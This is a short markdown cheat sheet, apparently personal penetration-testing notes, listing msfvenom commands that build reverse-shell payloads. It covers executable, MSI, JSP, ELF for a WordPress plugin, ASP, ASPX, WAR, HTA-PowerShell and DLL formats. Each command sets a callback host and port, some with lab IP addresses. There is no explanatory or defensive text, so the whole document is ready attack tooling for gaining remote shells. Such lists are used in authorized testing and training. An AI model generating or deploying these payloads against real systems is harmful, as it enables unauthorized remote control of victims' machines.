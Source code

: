 # MSFVenom
------

https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/


exe
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=9999 -f exe -o shell.exe
```

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.23.31 LPORT=9999 -f exe -o shell.exe  
```

msi
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.121 LPORT=80 -f msi -o rev.msi
```

jsp
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=9999 -f raw -o shell.jsp
```

elf (Wordpress Plugin)
```bash
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.133 LPORT=9999 -f elf -o shell.elf
```

asp
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$1 LPORT=9999 -f asp -o shell.asp
```

aspx
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=$1 LPORT=9999 -f aspx -o shell.aspx
```

war
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$1 LPORT=9999 -f war -o shell.war
```

hta-psh
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=9999 -f hta-psh -o shell.hta
```

dll
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.51 LPORT=9999 -f dll -o shell.dll
```

